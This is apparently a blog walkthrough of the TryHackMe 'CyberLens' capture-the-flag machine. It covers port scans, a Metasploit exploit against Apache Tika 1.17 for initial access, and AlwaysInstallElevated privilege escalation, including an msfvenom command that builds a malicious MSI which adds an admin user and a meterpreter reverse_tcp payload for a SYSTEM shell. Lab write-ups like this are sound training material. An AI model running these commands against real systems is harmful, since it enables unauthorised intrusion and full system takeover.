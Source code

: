 ```yaml
---
title: THM Cyberlens v7
date: 2024-05-23 08:01:00 -0800
categories: [Walkthrough, TryHackMe]
tags: [THM, TryHackMe, CTF]
published: true
---
```


# CyberLens

[TryHackMe](https://tryhackme.com/signup?referrer=62836ffc2c1677004856943b) machine. The Description of this machines gives us a hint that there will be secrets revealed within every image. Prepare to reveal the hidden matrix of information that lurks beneath the surface of CyberLens, because at CyberLens they make metadata their playground!

So here we are going to be looking at digital forensics and image analysis, trying to expose the information that lies beneath.

Before starting we are goiong to add the server to our hosts file. 

- `sudo echo '10.10.207.0 cyberlens.thm' >> /etc/hosts`

## Enumeration

### Port Scans

Stating off with nmap scan to see what we're dealing with:

- `nmap -T4 -p- $target_ip -vvv -oN /tmp/scan_results.txt`

Then with the open ports we find we can enumerate services.

- `nmap -v -sC -sV -O -p$open_ports $target_ip -vvv`

### Port 80

Cyberlens.thm is an image metadata extractor. Upload an image and get back the metadata results. This could be running system commands.

### Port 61777

This is a Apache Tika 1.17 Server. `searchsploit Tika 1.17` yeilds results with a metasploit exploit. Setting options and running against target seems to execute the exploit but no sessions are created. There does seem to be something here though as PUT requests are allowed and we can write to the server.

## User Flag

Running `msfconsole` with `windows/http/apache_tika_jp2_jscript` after a few tries we recieve a session. So lets pick up the user flag. `type user.txt` inside of the users desktop to capture the user flag.

## Admin Flag

Enumerating with winpeas by uploading winpeasx86 to the server and executing. Just writing down a few things from there to check up on:

- powershell has console history: `C:\Users\CyberLens\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

AlwaysInstallElevated

If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

Source: [Hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)

Create a malicious `.msi` using `msfvenom` to create a new system admin.

-  `msfvenom -p windows/adduser USER=0xskar PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format` 

Upload using the metasploit session. or since we are already using metasploit we can use `exploit/windows/local/always_install_elevated` on the session we have open.

We can set the payload `set PAYLOAD windows/meterpreter/reverse_tcp` and with other options set running this command will get us a SYSTEM shell. We can get the flag inside of the administrator directory.
